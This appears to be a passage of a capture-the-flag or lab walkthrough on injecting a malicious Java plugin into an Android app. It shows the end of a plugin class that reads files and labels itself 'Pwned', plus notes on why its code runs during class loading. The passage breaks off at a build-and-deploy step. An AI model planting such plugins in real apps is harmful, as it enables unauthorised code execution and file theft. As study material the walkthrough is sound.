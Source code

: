 ```java
   if (fis != null) {
    try { fis.close(); } catch (IOException e) { }
   }
   if (fos != null) {
    try { fos.close(); } catch (IOException e) { }
   }
  }
 }
    
 private static String readFileContents(File file) throws IOException {
  BufferedReader reader = null;
  StringBuilder contents = new StringBuilder();
        
  try {
   reader = new BufferedReader(new FileReader(file));
   String line;
            
   while ((line = reader.readLine()) != null) {
    contents.append(line).append("\n");
   }
            
  } finally {
   if (reader != null) {
    try { reader.close(); } catch (IOException e) { }
   }
  }
        
  return contents.toString();
 }
    
 // SimplePlugin interface
 public String getName() { return "Pwned"; }
 public String getType() { return "Hacked"; }
 public Map<String, Integer> getAllData() { 
  Map<String, Integer> m = new HashMap<>();
  m.put("HP", 1337);
  return m;
 }
}
```

Why this works reliably:

- Code executes  (class init + constructor) → run during various loader paths.
- Uses only Java I/O → no Android SDK jars needed for compilation.
- Implements the `SimplePlugin` shape → accepted and displayed in the list without full interface boilerplate.

---

### Step 5: Build & Deploy
